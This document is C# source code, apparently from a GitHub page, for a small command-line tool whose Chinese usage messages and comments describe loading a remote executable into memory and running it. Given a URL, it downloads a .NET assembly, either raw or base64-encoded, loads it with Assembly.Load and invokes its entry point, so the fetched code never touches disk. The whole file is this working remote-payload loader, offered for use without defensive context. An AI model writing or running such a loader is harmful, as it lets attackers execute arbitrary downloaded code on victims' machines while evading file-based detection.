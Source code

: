 ```c#
using System;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System;
using System.IO;
using System.Net;
using System.Linq;
using System.Reflection;

namespace demo1{
    class Program{
        static void Main(string[] args){
            string fileDownloadurl = null;
            string filedownloadtype = null;
            byte[] filebuffer = null;
            try{
                fileDownloadurl = args[1];
                filedownloadtype = args[0];
            }
            catch{
                Console.WriteLine("\n加载远程exe文件到内存执行：sflcsharp.exe -b exe文件的url");
                Console.WriteLine("\n加载远程base64密文文件到内存执行：为sflcsharp.exe -b64 b64文件的url");
                Environment.Exit(0);
            }
            if (filedownloadtype == "-b"){
                filebuffer = Downloadbinarypefilebyhttp(fileDownloadurl);
            }
            if (filedownloadtype == "-b64"){
                filebuffer = downloadbase64(fileDownloadurl);
            }
            if (filebuffer != null){
                Console.WriteLine("正在将下载下来的程序加载到当前用户的内存中");
                Assembly assemblyinstance = Assembly.Load(filebuffer);  //将下载下来的程序加载到当前用户的内存中
                Console.WriteLine("正在寻找程序入口点并执行程序");
                assemblyinstance.EntryPoint.Invoke(null,new object[] { null}); //找到程序的入口点并执行程序
                Console.WriteLine("\n程序执行完毕");
            }
        }
        public static byte[] Downloadbinarypefilebyhttp(string url){
            Console.WriteLine("\n创建WebClient类用来下载PE文件");
            WebClient downloadwebclient = new WebClient();  //这个类可以从指定url上下载或者上传数据
            Console.WriteLine("\n下载文件后自动保存为byte[]格式\n");
            byte[] test = downloadwebclient.DownloadData(url);
            return test;
        }
        public static byte[] downloadbase64(string url){
            Console.WriteLine("\n创建WebClient类用来下载base64密文文件，下载到的数据按照字符串格式保存在内存");
            WebClient downloadwebclient = new WebClient();  //这个类可以从指定url上下载或者上传数据
            string b64 = downloadwebclient.DownloadString(url);
            Console.WriteLine("将base64字符串转换为byte[]类型的数据");
            byte[] test = Convert.FromBase64String(b64);
            return test;
        }
    }
}
```
